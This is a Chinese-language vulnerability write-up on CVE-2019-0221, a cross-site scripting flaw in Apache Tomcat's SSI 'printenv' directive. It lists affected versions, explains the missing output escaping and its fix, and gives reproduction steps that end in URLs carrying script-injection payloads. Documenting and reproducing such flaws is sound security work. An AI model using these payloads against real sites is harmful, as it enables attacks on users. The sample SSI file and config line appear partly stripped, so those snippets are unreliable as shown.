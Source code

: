 ```yaml
---
title: "（CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS"
id: zhfly3201
---
```


# （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS

## 一、漏洞简介

Apache Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用“printenv”指令的情况下，才能利用此漏洞。

利用条件

*   必须在Apache Tomcat中启用SSI支持 - 全局或特定Web应用程序。默认情况下不启用。
*   Web应用程序中必须存在具有“printenv”SSI指令的文件(通常为“.shtml”)。
*   攻击者必须能够访问该文件。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

## 三、复现过程

### 漏洞分析

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的[完整列表](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html#Variables)）。
“echo”指令打印出单个变量的值，而“printenv”指令打印出所有变量的值。这两个指令都输出HTML。Apache Tomcat对于使用“echo”指令时正确地转义了XSS值，但对于“printenv”指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。
比较“echo”参数中正确转义输出的[代码](https://github.com/apache/tomcat/blob/master/java/org/apache/catalina/ssi/SSIEcho.java)：

![image](../img/548b2f5b07bbc328c78f346c73c834fb.png)

与未对输出进行正确转义的“printenv”参数的代码相比：

![image](../img/2feed46d41d0142bb24ad771dd4327da.png)

修复方法是添加如下[提交](https://github.com/apache/tomcat/commit/15fcd16)中所示的编码：

![image](../img/4cdc063aaff09e6a26dcdc3f1b6d0a28.png)

### 漏洞复现

*   1.在Windows中安装Java运行时环境(JRE)。
*   2.下载有漏洞的Tomcat版本并解压。
*   3.在第19行修改conf\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）

```
Context privileged =“true”> 
```

*   4.根据这里的[指令](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html)修改conf\web.xml以启用SSI servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
*   5.将以下代码放在“webapps / ROOT / ssi / printenv.shtml”中：

```
<html><head><title></title><body>
Echo test: <br /><br />
Printenv test: 
</body></html> 
```

*   6通过以下命令运行Tomcat：

```
cd bin
catalina run 
```

*   7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的“echo”指令与无法正确转义的“ printenv ”指令之间的区别

```
http://www.0-sec.org:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E `[http://www.0-sec.org:8080/printenv.shtml?<script>alert('xss')</script>](http://www.0-sec.org:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E)` 
```

![image](../img/f8da50e448e4091c158acd1fb68ccacf.png)

![image](../img/64c26c122a00a125f658f54612b0fe5c.png)

## 参考链接

> https://xz.aliyun.com/t/5310